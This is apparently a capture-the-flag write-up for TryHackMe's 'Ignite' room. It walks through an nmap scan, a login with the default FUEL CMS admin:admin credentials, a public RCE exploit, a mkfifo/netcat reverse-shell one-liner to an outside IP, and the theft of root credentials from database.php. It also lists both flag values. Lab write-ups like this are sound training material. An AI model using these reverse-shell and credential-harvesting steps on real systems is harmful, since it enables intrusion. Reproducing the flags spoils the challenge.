

# Ignite

A new start-up has a few issues with their web server.

Room URL: https://tryhackme.com/room/ignite

---

# Task 1

No info given at all. Let's start with a portscan. Just one open port?

```bash
$ nmap -sC -sV 10.10.99.113
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 21:16 CEST
Nmap scan report for 10.10.99.113
Host is up (0.042s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

Let's check out that `/fuel` the `robots.txt` mentions. At the same time I'm
running gobuster. Everything in the root just displays the index and almost
everything in `/fuel` just redirects back to the login page. The index page
actually mentions the default credentials are `admin:admin` so let's use those
to log in to `/fuel`. It works!

After some googling I found there's an [RCE
vulnerability](https://www.exploit-db.com/exploits/47138) so let's download that
and modify it for our poc.

I was actually getting a PHP error when running the POC, but it seems to be
working still.

```
$ python poc.py
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>
```

So now that we have this, could we get a reverse shell working? Yes!

```
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.39.224 8888 >/tmp/f
```

```
$ nc -lnvp 8888
Connection from 10.10.207.100:47232
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

1. User.txt

Hooking in on what we did to get to this assignment, finding the flag was easy:

```
$ ls /home
www-data
$ ls /home/www-data
flag.txt
$ cat /home/www-data/flag.txt
6470e394cbf6dab6a91682cc8585059b
```

```
6470e394cbf6dab6a91682cc8585059b
```

2. Root.txt

After trying to find suid binaries for a while and being unable to find useful
ones I remembered reading this on the index page:



Credentials in a datbase file? Let's find that shall we?

```bash
$ find / -name 'database.php' 2>/dev/null
/var/www/html/fuel/application/config/database.php
```

There's root credentials in the file. Let's use those to gain access to root.

```
su root
Password: mememe

root@ubuntu:/var/www/html#
```

Now the only thing that remains is extracting the root flag from
`/root/root.txt`

```
b9bbcb33e11b80be759c4e844862482d
```
